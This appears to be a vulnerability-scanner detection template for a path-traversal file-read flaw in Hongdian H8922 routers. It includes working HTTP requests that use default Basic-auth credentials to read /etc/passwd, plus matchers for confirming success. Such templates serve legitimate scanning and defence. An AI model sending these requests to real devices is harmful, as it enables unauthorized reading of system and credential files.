 **Type - regex**

- regex
  1. root:.\*:0:0:

---

# Hongdian H8922 3.0.5 Devices - Local File Inclusion

## Description

- Hongdian H8922 3.0.5 devices are vulnerable to local file inclusion. The /log_download.cgi log export handler does not validate user input and allows a remote attacker with minimal privileges to download any file from the device by substituting ../ (e.g., ../../etc/passwd) This can be carried out with a web browser by changing the file name accordingly. Upon visiting log_download.cgi?type=../../etc/passwd and logging in, the web server will allow a download of the contents of the /etc/passwd file.

- severity - medium
- tags - cve,cve2021,hongdian,traversal

## Requests

### Step - 1

```
GET /log_download.cgi?type=../../etc/passwd HTTP/1.1
Host: {{Hostname}}
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=

```

### Step - 2

```
GET /log_download.cgi?type=../../etc/passwd HTTP/1.1
Host: {{Hostname}}
Authorization: Basic YWRtaW46YWRtaW4=

```

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. application/octet-stream
- part - header
